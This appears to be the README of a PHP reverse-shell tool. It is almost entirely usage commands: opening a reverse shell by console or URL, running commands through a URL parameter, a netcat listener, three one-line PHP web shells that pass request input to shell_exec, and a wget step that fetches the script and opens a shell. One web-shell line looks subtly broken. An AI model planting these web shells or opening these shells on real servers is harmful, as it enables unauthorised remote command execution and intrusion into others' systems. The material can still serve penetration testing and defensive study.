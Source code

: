 # PHP Smart Reverse Shell script

## Script Commands
Call reverse shell from console
```shell
php ./srs.php 127.0.0.1 1234
```
Call reverse shell from url
```url
https://example.com/srs.php?ip=127.0.0.1&port=1234
```
Run command from url
```url
https://example.com/srs.php?c=ls%20-la
```
## Usefull commands

Wait for reverse shell connection
```shell
nc -l 127.0.0.1 4444
```

Executing shell code with PHP
```PHP
<?php echo shell_exec($_GET['command']);?>
```
or
```PHP
<?=isset($_GET['c'])?shell_exec($_GET['c']):'';?>
```
or 
```PHP
<?php if(isset($_GET['c'])){header('Content-Type: text/plain');die(shell_exec($_GET['c'.'2>&1']));}?>
```

Download Smart Reverse Shell and open shell connection
```shell
wget -O srs.php https://raw.githubusercontent.com/GramThanos/php-smart-reverse-shell/master/srs.php
php ./srs.php 127.0.0.1 1234
```
